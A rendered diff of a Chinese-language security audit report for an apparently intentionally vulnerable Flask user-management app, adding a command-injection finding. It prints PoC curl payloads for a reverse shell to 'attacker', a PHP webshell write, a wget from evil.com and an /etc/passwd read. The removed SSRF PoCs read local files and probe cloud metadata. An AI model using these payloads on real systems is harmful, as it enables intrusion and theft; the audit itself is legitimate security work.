

Before and after one commit to jjyyxx-1/flask-user-mgmt-security, a Markdown page: docs/audit-report.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/audit-report.md
+++ b/docs/audit-report.md
@@ -4,8 +4,8 @@
 
 **项目名称：** Flask 用户信息管理平台
 **审计日期：** 2026-07-13
-**漏洞总数：** 9
-**严重漏洞：** 6 | **中危漏洞：** 2 | **低危漏洞：** 1
+**漏洞总数：** 10
+**严重漏洞：** 7 | **中危漏洞：** 2 | **低危漏洞：** 1
 
 ---
 
@@ -13,74 +13,63 @@
 
 | 编号 | 漏洞类型 | 位置 | 严重性 |
 |------|---------|------|:------:|
-| V-001 | **SSRF 服务端请求伪造** | `/fetch-url` | 🔴 严重 |
-| V-002 | **CSRF 密码修改** | `/change-password` | 🔴 严重 |
-| V-003 | **越权改密** | `/change-password` | 🔴 严重 |
-| V-004 | **无原密码校验** | `/change-password` | 🔴 严重 |
-| V-005 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 |
-| V-006 | **负金额充值** | `/recharge` | 🔴 严重 |
-| V-007 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
-| V-008 | 路径穿越 | `/page?name=../` | 🔴 严重 |
-| V-009 | 任意文件上传 | `/upload` | 🟡 中危 |
+| V-001 | **命令注入 (RCE)** | `/ping` | 🔴 严重 |
+| V-002 | **SSRF** | `/fetch-url` | 🔴 严重 |
+| V-003 | **CSRF 改密** | `/change-password` | 🔴 严重 |
+| V-004 | **越权改密** | `/change-password` | 🔴 严重 |
+| V-005 | **无原密码校验** | `/change-password` | 🔴 严重 |
+| V-006 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 |
+| V-007 | **负金额充值** | `/recharge` | 🔴 严重 |
+| V-008 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
+| V-009 | 路径穿越 | `/page?name=../` | 🔴 严重 |
+| V-010 | 任意文件上传 | `/upload` | 🟡 中危 |
 
 ---
 
-## 1. V-001 SSRF 服务端请求伪造
+## 1. V-001 命令注入 (RCE)
 
-**CWE:** CWE-918: Server-Side Request Forgery (SSRF)
-**CVSS:** 9.1 (Critical)
+**CWE:** CWE-78: OS Command Injection
+**CVSS:** 10.0 (Critical)
 
 ### 漏洞代码
 ```python
-import urllib.request
+import subprocess
 
-@app.route("/fetch-url", methods=["POST"])
-def fetch_url():
-    url = request.form.get("url", "")
-    resp = urllib.request.urlopen(url, timeout=10)
-    content = resp.read(5000)
+@app.route("/ping", methods=["POST"])
+def ping():
+    ip = request.form.get("ip", "")
+    cmd = f"ping -c 3 {ip}"                    # ← f-string 直接拼接
+    output = subprocess.check_output(cmd,       # ← shell=True 执行
+        shell=True, stderr=subprocess.STDOUT, timeout=30)
 ```
 
-**问题：** 用户输入的 URL **未经任何校验**直接传给 `urlopen()`，允许：
-- `file://` 协议读取本地文件
-- `http://127.0.0.1` 访问内网服务
-- `http://10.x.x.x` 扫描内网资产
+**问题：** 三个致命缺陷叠加：
+1. **f-string 拼接** — 用户输入直接嵌入命令
+2. **shell=True** — 命令通过系统 shell 执行
+3. **无过滤** — 不检查 ip 参数内容
 
-### POC：file:// 协议读取系统文件
+### POC：执行系统命令
 
 ```bash
-# 读取 /etc/passwd (Linux)
-curl -X POST http://127.0.0.1:5000/fetch-url \
-  -d "url=file:///etc/passwd"
+# 查看系统文件
+curl -X POST http://127.0.0.1:5000/ping \
+  -d "ip=127.0.0.1; cat /etc/passwd"
 
-# 读取 app.py 源码
-curl -X POST http://127.0.0.1:5000/fetch-url \
-  -d "url=file:///path/to/app.py"
+# 反弹 shell
+curl -X POST http://127.0.0.1:5000/ping \
+  -d "ip=127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/attacker/4444 <&1'"
 
-# 读取数据库文件
-curl -X POST http://127.0.0.1:5000/fetch-url \
-  -d "url=file:///path/to/data/users.db"
-```
+# 写 webshell
+curl -X POST http://127.0.0.1:5000/ping \
+  -d "ip=127.0.0.1; echo '<?php eval(\$_GET[c]);?>' > /var/www/html/shell.php"
 
-### POC：内网端口扫描
-
-```bash
-# 扫描本机 MySQL 端口
-curl -X POST http://127.0.0.1:5000/fetch-url \
-  -d "url=http://127.0.0.1:3306"
-
-# 扫描内网主机
-curl -X POST http://127.0.0.1:5000/fetch-url \
-  -d "url=http://10.0.0.1:22"
-
-# 访问云元数据 API（AWS）
-curl -X POST http://127.0.0.1:5000/fetch-url \
-  -d "url=http://169.254.169.254/latest/meta-data/"
+# 下载恶意文件
+curl -X POST http://127.0.0.1:5000/ping \
+  -d "ip=127.0.0.1; wget http://evil.com/malware -O /tmp/malware"
 ```
 
 ### 修复方案
 
 ```python
-import re
-from urllib.parse import urlparse
+import shlex
 
````
Also changed, not shown: other parts of docs/audit-report.md (+32 -53 lines).
